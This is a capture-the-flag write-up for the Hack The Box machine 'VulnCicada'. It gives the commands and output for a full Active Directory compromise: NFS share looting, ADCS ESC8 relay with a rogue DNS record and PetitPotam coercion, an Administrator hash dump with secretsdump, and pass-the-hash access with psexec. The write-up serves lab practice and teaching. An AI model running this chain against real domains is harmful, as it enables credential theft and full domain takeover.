<h1>HTB: VulnCicada</h1>


| Field      | Details                                                          |
|------------|------------------------------------------------------------------|
| Platform   | [Hack The Box](https://app.hackthebox.com/machines/VulnCicada)   |
| Difficulty | Medium                                                           |
| OS         | Windows                                                          |
| Author     | ByteFragment                                                     |
| Date       | July 17th 2026                                                   |

--- 

<h2>Enumeration</h2>

<h3>NMAP</h3>

Port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.234.48 -oN nmap
```

This gave me the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap`.

From the nmap results, we can see that the target machine is running various services, including a DNS server on port 53, an HTTP server on port 80, a SMB server on port 445, and an RPC port mapper on port 111. Additionally, we can see that the target machine is running an LDAP service.

We can also see information such as the domain being `cicada.vl` and the FQDN being `DC-JPQ225.cicada.vl`, so let's add those to our /etc/hosts file as well.

```
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-07-17 19:06:54Z)
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/tcp6  rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  2,3,4        111/udp6  rpcbind
|   100003  2,3         2049/udp   nfs
|   100003  2,3         2049/udp6  nfs
|   100003  2,3,4       2049/tcp   nfs
|   100003  2,3,4       2049/tcp6  nfs
|   100005  1,2,3       2049/tcp   mountd
|   100005  1,2,3       2049/tcp6  mountd
|   100005  1,2,3       2049/udp   mountd
|   100005  1,2,3       2049/udp6  mountd
|   100021  1,2,3,4     2049/tcp   nlockmgr
|   100021  1,2,3,4     2049/tcp6  nlockmgr
|   100021  1,2,3,4     2049/udp   nlockmgr
|   100021  1,2,3,4     2049/udp6  nlockmgr
|   100024  1           2049/tcp   status
|   100024  1           2049/tcp6  status
|   100024  1           2049/udp   status
|_  100024  1           2049/udp6  status
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-17T18:52:38
|_Not valid after:  2027-07-17T18:52:38
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-17T18:52:38
|_Not valid after:  2027-07-17T18:52:38
|_ssl-date: TLS randomness does not represent time
2049/tcp  open  nlockmgr      1-4 (RPC #100021)
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-17T18:52:38
|_Not valid after:  2027-07-17T18:52:38
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: cicada.vl, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC-JPQ225.cicada.vl
| Not valid before: 2026-07-17T18:52:38
|_Not valid after:  2027-07-17T18:52:38
|_ssl-date: TLS randomness does not represent time
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2026-07-17T19:08:23+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=DC-JPQ225.cicada.vl
| Not valid before: 2026-07-16T19:00:16
|_Not valid after:  2027-01-15T19:00:16
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
53790/tcp open  msrpc         Microsoft Windows RPC
54037/tcp open  msrpc         Microsoft Windows RPC
64848/tcp open  msrpc         Microsoft Windows RPC
65266/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
65267/tcp open  msrpc         Microsoft Windows RPC
65283/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC-JPQ225; OS: Windows; CPE: cpe:/o:microsoft:windows
```

The RPC Portmapper service running on port 111 seems interesting, so let's explore that further. [HackTricks](https://hacktricks.wiki/en/network-services-pentesting/pentesting-rpcbind.html) has a great resource on pentesting this service, so we will reference that.

From the nmap scan, we can see that the target machine is running an NFS service:



So let's run the command:

```
showmount -e 
```

This will show us the available NFS shares:



As we can see, there is a `/profiles` share accessible to `everyone`.

After creating a profiles directory on our attack machine and mounting the NFS share to it using the command:

```
sudo mount -t nfs 10.129.234.48:/profiles profiles -o nolock
```

We can view its contents:



The share contains a series of folders that appear to be named after employees using the format FirstName.LastName, along with an Administrator folder.

Using the `tree .` command, we can see the share's layout:



Most of the folders appear to be empty besides the `Administrator` and `Rosie.Powell` folders, which contain a Documents subfolder that we cannot access and a single `.png` image.

Let's copy the images to our attack machine and then see if they contain anything interesting.

---
For some reason, simply trying to copy the Rosie.Powell marketing.png image did work, but I could not view the resulting image. However, downloading the photo by using the command:

```
nxc nfs 10.129.234.48 --share profiles --get-file 'Rosie.Powell/marketing.png' '/home/kali/labs_htb/VulnCicada/'
```

did work.

---

The image in the Administrators folder is seemingly uninteresting, as it is simply a man with a laptop on some sort of parachute. The image in the Rosie.Powell folder, however, is more interesting as it shows a potential password:


Attempting to validate these credentials using nxc:

```
nxc smb DC-JPQ225.cicada.vl -u Rosie.Powell -p '*********'
```

reveals that NTLM authentication appears to be disabled:



Lucky for us, we can use `Kerberos` to authenticate by adding the `-k` flag:



Great! We now have access to the SMB server, so let's try and list the shares:

```
nxc smb DC-JPQ225.cicada.vl -u Rosie.Powell -p '********' -k --shares
```



Besides the standard shares, we see two additional ones: `profiles$`, which we already know about, and `CertEnroll`.

The presence of this indicates that ADCS is active on the target machine, so let's explore this further using `certipy-ad`.

Let's first do a vulnerability scan using the command:

```
certipy-ad find -target DC-JPQ225.cicada.vl -u Rosie.Powell@cicada.vl -p '*******' -k -vulnerable -stdout
```



The scan returns a single vulnerability, `ESC8`, so let's attempt to exploit this.

<h2>Exploitation</h2>

The first step is to add a fake DNS record that points to the IP of our attack machine using the `bloody-ad` tool:

```
bloodyad -u Rosie.Powell -p ******** -d cicada.vl -k --host DC-JPQ225.cicada.vl add dnsRecord DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA 10.10.15.16
```

Next, we need to set up a relay using the command:

```
sudo certipy-ad relay -target '[http://dc-jpq225.cicada.vl/](http://dc-jpq225.cicada.vl/)' -template DomainController -subject CN=DC-JPQ225,CN=Computer,DC=cicada,DC=vl
```

---

With this command, the `-subject CN=DC-JPQ225,CN=Computer,DC=cicada,DC=vl` is essential as otherwise certipy-ad will try and build the Certificate Signing Request's CN using the passed-in username which is empty, and you will get a `Failed to run attack: Attribute's length must be >= 1 and <= 64, but it was 0` error and the attack will fail.

---

Now that we have the relay set up, we need a method to get the target machine to authenticate back to us using Kerberos.

For this, we can use the `nxc` command:

```
nxc smb DC-JPQ225.cicada.vl  -u Rosie.Powell -p ******** -k -M coerce_plus -o LISTENER=DC-JPQ2251UWhRCAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAYBAAAA METHOD=PetitPotam
```

Checking our relay, we see that we received a request and saved the certificate and private key to a file called `dc-jpq225.pfx`:



And we can use this `.pfx` file to authenticate to the domain controller again using `certipy-ad`:

```
certipy-ad auth -pfx dc-jpq225.pfx -dc-ip 10.129.234.48
```



This stores the TGT credential cache to a file called `dc-jpq225.ccache`, which we can use to dump the Administrator's NTLM hash using `impacket-secretsdump`:

```
KRB5CCNAME=dc-jpq225.ccache impacket-secretsdump -k -no-pass cicada.vl/dc-jpq225\$@dc-jpq225.cicada.vl -just-dc-user administrator
```



With the Administrator's NTLM hash, we can now gain access to the target machine using `impacket-psexec`:

```
impacket-psexec cicada.vl/administrator@DC-JPQ225.cicada.vl -k -hashes :85a0da53871a9d56b6cd05deda3a5e87
```



Both the user and the root flag can be found on the Administrator's Desktop:



Thus solving the challenge!

